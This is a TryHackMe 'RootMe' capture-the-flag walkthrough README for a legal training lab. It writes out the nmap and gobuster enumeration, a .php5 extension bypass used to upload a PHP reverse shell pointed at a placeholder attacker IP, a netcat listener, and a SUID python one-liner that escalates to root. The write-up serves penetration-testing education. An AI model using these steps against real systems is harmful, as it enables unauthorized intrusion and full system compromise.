# 🔐 TryHackMe - RootMe Writeup


---

## 📌 Overview

This repository documents my walkthrough of the **RootMe** room on **TryHackMe**. The challenge focuses on identifying a vulnerable file upload functionality, exploiting it to gain remote code execution, and performing privilege escalation to obtain root access.

> **Skills Practiced**
>
> - Network Enumeration
> - Web Enumeration
> - File Upload Exploitation
> - Reverse Shell
> - Linux Enumeration
> - SUID Privilege Escalation
> - GTFOBins

---

# 📖 Table of Contents

- [Room Information](#-room-information)
- [Lab Environment](#-lab-environment)
- [Attack Methodology](#-attack-methodology)
- [Reconnaissance](#-1-reconnaissance)
- [Web Enumeration](#-2-web-enumeration)
- [Payload Preparation](#-3-payload-preparation)
- [File Upload Exploitation](#-4-file-upload-exploitation)
- [Reverse Shell](#-5-reverse-shell)
- [User Flag](#-6-locating-the-user-flag)
- [Privilege Escalation](#-7-privilege-escalation)
- [Root Flag](#-8-root-flag)
- [MITRE ATT&CK Mapping](#-mitre-attck-mapping)
- [Tools Used](#-tools-used)
- [Lessons Learned](#-lessons-learned)

---

# 📋 Room Information

| Property | Value |
|----------|-------|
| Platform | TryHackMe |
| Room | RootMe |
| Difficulty | Easy |
| Category | Web Exploitation / Privilege Escalation |

---

# 💻 Lab Environment

**Attacker Machine**

- TryHackMe AttackBox (Kali Linux)

**Target Machine**

- Ubuntu Linux
- Apache HTTP Server
- SSH Enabled

---

# 🎯 Attack Methodology

```
Reconnaissance
      │
      ▼
Nmap Scan
      │
      ▼
Directory Enumeration
      │
      ▼
Discover Upload Panel
      │
      ▼
Prepare PHP Reverse Shell
      │
      ▼
Upload Blocked (.php)
      │
      ▼
Extension Bypass (.php5)
      │
      ▼
Upload Successful
      │
      ▼
Trigger Reverse Shell
      │
      ▼
Initial Access (www-data)
      │
      ▼
Locate User Flag
      │
      ▼
Enumerate SUID Binaries
      │
      ▼
GTFOBins
      │
      ▼
Privilege Escalation
      │
      ▼
Root Shell
```

---

# 🔍 1. Reconnaissance

## Objective

Identify open services running on the target.

### Command

```bash
nmap -sV <TARGET_IP>
```

### Result

| Port | Service | Version |
|------|---------|---------|
|22|SSH|OpenSSH 8.2p1|
|80|HTTP|Apache 2.4.41|

The web server became the primary attack surface.

### Screenshot

```

```

---

# 🌐 2. Web Enumeration

Using Gobuster to enumerate hidden directories.

```bash
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt
```

### Interesting Findings

- /panel
- /uploads
- /css
- /js

The `/panel` upload page and `/uploads` directory suggested a potential file upload vulnerability.

### Screenshot

```

```

---

# 📦 3. Payload Preparation

Downloaded the **PentestMonkey PHP Reverse Shell**.

Modified

```php
$ip="<ATTACKER_IP>";
$port=1234;
```

### Screenshot

```

```

Configured attacker IP.

```

```

---

# 📤 4. File Upload Exploitation

## Initial Attempt

Uploading

```
php-reverse-shell.php
```

Result

```
PHP não é permitido!
```

The application blocked `.php` files.

### Screenshot

```

```

---

## Bypass

Copied the payload and renamed it

```
php-reverse-shell.php
```

↓

```
php-reverse-shell.php5
```

Apache still executes `.php5` files while the upload filter only blocked `.php`.

### Screenshot

```

```

---

## Successful Upload

Uploading the renamed payload succeeded.

```
O arquivo foi upado com sucesso!
```

### Screenshot

```

```

---

## Verify Upload

Visited

```
/uploads
```

Confirmed

```
php-reverse-shell.php5
```

was publicly accessible.

### Screenshot

```

```

---

# 🖥️ 5. Reverse Shell

Started a Netcat listener.

```bash
nc -lvnp 1234
```

Triggered the uploaded payload.

Successfully received a reverse shell.

```
uid=33(www-data)
```

### Screenshot

```

```

---

# 🚩 6. Locating the User Flag

Searched for the user flag.

```bash
find / -name user.txt
```

Despite several permission denied messages, the flag location was successfully identified.

### Screenshot

```

```

---

# 🔺 7. Privilege Escalation

## Enumerating SUID Binaries

```bash
find / -user root -perm /4000 2>/dev/null
```

Interesting binary discovered

```
/usr/bin/python2.7
```

### Screenshot

```

```

---

## GTFOBins

Consulted GTFOBins and verified that Python could be abused for SUID privilege escalation.

### Screenshot

```

```

---

# 👑 8. Root Flag

Executed

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh","sh","-p")'
```

Verified privileges

```bash
whoami
```

Output

```
root
```

Retrieved the final flag.

```bash
cat /root/root.txt
```

### Screenshot

```

```

---

# 🛡️ Security Issues Identified

- Weak file extension filtering
- Executable upload directory
- Directory listing enabled
- SUID-enabled Python interpreter
- Insecure privilege configuration

---

# 🧠 MITRE ATT&CK Mapping

| Technique | ATT&CK ID |
|-----------|-----------|
| Active Scanning | T1595 |
| Exploit Public-Facing Application | T1190 |
| Command Shell | T1059.004 |
| File and Directory Discovery | T1083 |
| Permission Groups Discovery | T1069 |
| Privilege Escalation | T1548 |

---

# 🛠️ Tools Used

- Nmap
- Gobuster
- Netcat
- PentestMonkey PHP Reverse Shell
- GTFOBins
- Linux Terminal

---

# 📚 Lessons Learned

✔ Network reconnaissance is essential before exploitation.

✔ Directory enumeration often reveals hidden attack surfaces.

✔ File upload validation should never rely solely on file extensions.

✔ Reverse shells provide an effective method for gaining remote command execution.

✔ SUID binaries should always be audited, as misconfigured interpreters can lead to full system compromise.

✔ GTFOBins is an invaluable resource for privilege escalation during penetration testing.

---

# 📂 Repository Structure

```
RootMe/
│
├── README.md
│
└── screenshots/
    ├── 01_nmap_scan.png
    ├── 02_gobuster_scan.png
    ├── 03_download_reverse_shell.png
    ├── 04_configure_reverse_shell.png
    ├── 05_php_upload_blocked.png
    ├── 06_rename_php5.png
    ├── 07_upload_success.png
    ├── 08_verify_upload.png
    ├── 09_reverse_shell.png
    ├── 10_locating_user_flag.png
    ├── 11_suid_enumeration.png
    ├── 12_gtfobins_python_suid.png
    └── 13_root_flag.png
```

---

## ⚠️ Disclaimer

This repository is intended solely for educational purposes and documents activities performed in a legal Capture The Flag (CTF) environment on TryHackMe. The techniques demonstrated here should only be used in environments where explicit authorization has been granted.
